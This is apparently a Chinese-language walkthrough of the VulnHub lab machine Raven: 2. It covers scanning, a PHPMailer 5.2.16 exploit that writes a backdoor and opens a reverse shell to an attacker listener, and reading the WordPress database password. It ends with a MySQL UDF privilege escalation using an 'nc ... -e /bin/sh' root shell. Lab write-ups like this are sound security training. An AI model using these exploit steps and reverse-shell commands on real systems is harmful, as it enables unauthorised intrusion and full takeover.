 # Raven: 2

https://www.vulnhub.com/entry/raven-2,269/#release

difficulty: intermediate

Finish Date：2024-4-9

## IP

192.168.10.152

## Scan

Open Port -> 22,80,111,59658

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 2681c1f35e01ef93493d911eae8b3cfc (DSA)
|   2048 315801194da280a6b90d40981c97aa53 (RSA)
|   256 1f773119deb0e16dca77077684d3a9a0 (ECDSA)
|_  256 0e8571a8a2c308699c91c03f8418dfae (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Raven Security
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35893/udp   status
|   100024  1          56782/udp6  status
|   100024  1          57521/tcp6  status
|_  100024  1          59658/tcp   status
59658/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:3E:FC:53 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

首先访问 80 端口对应的 web 服务，在首页最底部显示使用了 Colorlib 的模板网站，发现有一个 BLOG 链接，点开后发现有些资源加载有问题，提示了 raven.local 是在这个域名下加载一些资源，需要先添加到/etc/host 中。

```
192.168.10.152  raven.local
```

添加后，再次访问 BLOG 发现是一个 wordpress 搭建的博客，先尝试对域名进行子域名爆破，发现没有 vhost。

```
gobuster vhost -t 50 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -u raven.local
```

使用扫描器对网站进行目录扫描，发现几个有意思目录：

```
gobuster dir -t 64 -k -w ~/tools/dict/fileName5000.txt -u http://raven.local/

/vendor               (Status: 301) [Size: 311] [--> http://raven.local/vendor/]
/wordpress            (Status: 301) [Size: 314] [--> http://raven.local/wordpress/]

```

访问 vendor 目录，发现可以 List Directory，点击查看相关文件及 html 源码，看看是否有有用信息。

## flag1

发现目录 http://raven.local/vendor/PATH ，找到了第一个 flag

```
/var/www/html/vendor/
flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
```

发现 vendor 目录下安装的是 PHPMailer，对应版本为 5.2.16，searchsploit 搜索一下看是否有相应的能利用的 exp。在 kali 上 searchsploit -m 40974 看看这个 py 脚本能否进行利用。

先在 kali 上建立监听：nc -lvnp 5555，修改 py 脚本以下代码段中的内容：

```
target = 'http://192.168.10.152/contact.php'
backdoor = '/pp.php'

s.connect((\\\'192.168.10.3\\\',5555));

'email': '"anarcoder\\\" -OQueueDirectory=/tmp -X/var/www/html/pp.php server\" @protonmail.com',
```

修改后，python3 执行脚本，看到后门 shell 已经成功写入：

```
[+] SeNdiNG eVIl SHeLL To TaRGeT....
可能会显示一直卡在这里，不用管
```

先访问一下 http://192.168.10.152/contact.php 这时就会在 pp.php 中写入 python 连接代码，再访问 http://192.168.10.152/pp.php 后门，激活其 python 脚本，能反弹链接到 nc 监听的 5555 端口。

得到反弹链接后，升级 tty ：python -c 'import pty; pty.spawn("/bin/bash")'

## flag2 and flag3

先看看有没有 flag\* 文件，找到了 flag2 和 flag3：

```
find / -name flag* 2>/dev/null
/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png
/var/www/flag2.txt

cat /var/www/flag2.txt
flag2{6a8ed560f0b5358ecf844108048eb337}
```

访问图片内容得到 flag3 ： /var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png

```
flag3{a0f568aa9de277887f37730d71520d9b}
```

第 4 个 flag 应该在/root 目录下，现在准备提权操作。

查看/etc/passwd 有哪些用户，发现两个可登陆用户：

```
michael:x:1000:1000:michael,,,:/home/michael:/bin/bash
steven:x:1001:1001::/home/steven:/bin/sh
```

查看 wordpress 数据库连接文件，发现 mysql 的登录用户名和密码：

```
cat /var/www/html/wordpress/wp-config.php

define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'R@v3nSecurity');
```

## flag4

### 方式 1：

使用 mysql 连接本地数据库，继续进行信息探针，在 wp_posts 表中找到了 flag4：

```
mysql> select * from wp_posts;

flag4{715dea6c055b9fe3337544932f2941ce}
```

继续进行测试，看能否获得 root 权限。查看 wp_users 表，找到哈希密码，john 进行爆破，看是否能登陆 wp 后台。

```
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 |    ->  明文没爆破出来
|  2 | steven     | $P$B6X3H3ykawf2oHuPsbjQiih5iJXqad. |    ->  明文： LOLLOL1
```

尝试使用这个密码 ssh 登陆 steven，不成功，看来 ssh 的密码和此密码不是同一个。

另外发现 mysql 进程使用 root 用户启动的，在执行命令时具有系统最高权限，这时尝试直接在 mysql 中读取 root 目录下的 flag4.txt：

```
select load_file('/root/flag4.txt');

___                   ___ ___
| _ \__ ___ _____ _ _ |_ _|_ _|
|   / _` \ V / -_) ' \ | | | |
|_|_\__,_|\_/\___|_||_|___|___|

flag4{df2bc5e951d91581467bb9a2a8ff4425}

CONGRATULATIONS on successfully rooting RavenII

I hope you enjoyed this second interation of the Raven VM

Hit me up on Twitter and let me know what you thought:

@mccannwj / wjmccann.github.io
```

### 方式 2：

既然 mysql 是以 root 用户启动的，那么再尝试下 mysql 的 udf 看能否获得 root 的 shell。

先查看下先决条件，看是否能够利用：

```
查看下插件路径：
show variables like 'plugin%';

plugin_dir    | /usr/lib/mysql/plugin/

查看是否有写目录的权限(不为NULL且没有设置其他的值，表示我们可以往 /usr/lib/mysql/plugin/ 中写文件)：
show variables like '%secure_file_priv%';

secure_file_priv |
```

开始利用：

先在 kali 上编译好 udf 库，利用 searchsploit 提供的 c 源代码进行编译：

```
searchsploit mysql udf
searchsploit -m 1518
mv 1518.c raptor_udf2.c
```

进行编译，得到了 raptor_udf2.so 文件：

```
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

将 aptor_udf2.so 文件上传至目标服务器/tmp 目录下，然后进行函数注册操作：

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));

select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';   <-- 这里注意路径要设置为对应的plugin目录
create function do_system returns integer soname 'raptor_udf2.so';

select * from mysql.func;

显示函数以注册成功 | do_system |   2 | raptor_udf3.so | function |
```

最终利用进行反弹，在 kali 上获得了 root 的 shell：

```
select do_system('nc 192.168.10.3 6666 -e /bin/sh');
```
